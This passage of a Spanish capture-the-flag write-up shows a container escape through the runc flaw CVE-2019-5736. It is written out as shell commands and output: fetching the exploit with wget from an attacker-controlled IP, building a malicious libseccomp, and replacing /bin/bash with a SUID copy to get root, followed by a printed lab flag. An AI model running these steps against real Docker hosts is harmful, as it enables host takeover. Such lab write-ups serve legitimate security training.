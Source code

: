 ```
root@f1b5fbc04d80:/tmp# wget -r http://10.10.14.221/CVE-2019-5736 && cd CVE-2019-5736/ && chmod +x make.sh bad_init.sh
```

Con esto, solo queda ejecutar el archivo `make.sh`, salir del contenedor e intentar volver a acceder.

```
root@0f4c2517af40:/tmp/CVE-2019-5736# ./make.sh 

+++ dirname ./make.sh
++ readlink -f .
+ cd /tmp/CVE-2019-5736
++ find /lib /lib64 /usr/lib
++ sort -r
++ egrep 'libseccomp\.so'
++ head -n1
+ SECCOMP_TARGET=/usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3
+ cp ./bad_libseccomp.c ./bad_libseccomp_gen.c
+ awk '($4 == ".text" && $6 == "Base") { print "void", $7 "() {}" }'
+ objdump -T /usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3
+ cp ./bad_init.sh /bad_init
+ gcc -Wall -Werror -fPIC -shared -rdynamic -o /usr/lib/x86_64-linux-gnu/libseccomp.so.2.3.3 ./bad_libseccomp_gen.c
+ mv /bin/bash /bin/good_bash
+ cat
+ chmod +x /bin/bash

root@0f4c2517af40:/tmp/CVE-2019-5736# exit

exit

noah@thenotebook:~$ sudo docker exec -it webapp-dev01 bash

OCI runtime state failed: unexpected end of JSON input: unknown
```

Este error indica que el exploit ha funcionado y que se debería haber ejecutado el payload definido correctamente.

```
noah@thenotebook:~$ ls -la /bin/bash

-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

Tras comprobar que dispongo de privilegio SUID en el binario de la "bash", lanzo un `bash -p`, obteniendo privilegios de usuario root y pudiendo así visualizar la flag final.

```
noah@thenotebook:~$ bash -p
bash-4.4# id

uid=1000(noah) gid=1000(noah) euid=0(root) groups=1000(noah)

bash-4.4# cat /root/root.txt

377fb1deff3f09bab1a5ee8b3e86a187
```

